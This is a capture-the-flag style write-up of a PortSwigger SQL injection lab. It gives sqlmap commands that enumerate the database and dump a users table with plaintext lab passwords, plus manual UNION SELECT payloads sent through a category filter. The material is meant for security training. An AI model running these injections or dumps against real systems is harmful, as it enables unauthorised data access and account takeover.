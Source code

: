 # [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## tools

- burpsuite scanner: `The category parameter appears to be vulnerable to SQL injection attacks.`
- sqlmap:
  - `sqlmap -r sqlmapr -p category -batch` => postgresql
  - `sqlmap -r sqlmapr -p category -dbs -dbms=postgresql -batch` => public
  - `sqlmap -r sqlmapr -p category -D public --tables -dbms=postgresql -batch`

  ```text
  [2 tables]
  +----------+
  | products |
  | users    |
  +----------+
  ```

  - `sqlmap -r sqlmapr -p category -D public -T users --dump -dbms=postgresql -batch`

  ```text
  +----------------------+---------------+
  | password             | username      |
  +----------------------+---------------+
  | 4x8d31ui7mt7qqm18vuv | carlos        |
  | gboaum4wk9m950ceojtf | wiener        |
  | o6fvzjp11q8vfkh5rlul | administrator |
  +----------------------+---------------+
  ```

## manual

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```http
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§-- HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
3. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+*+FROM+users-- HTTP/1.1
    ```

4. Login to admin account => Lab Solved
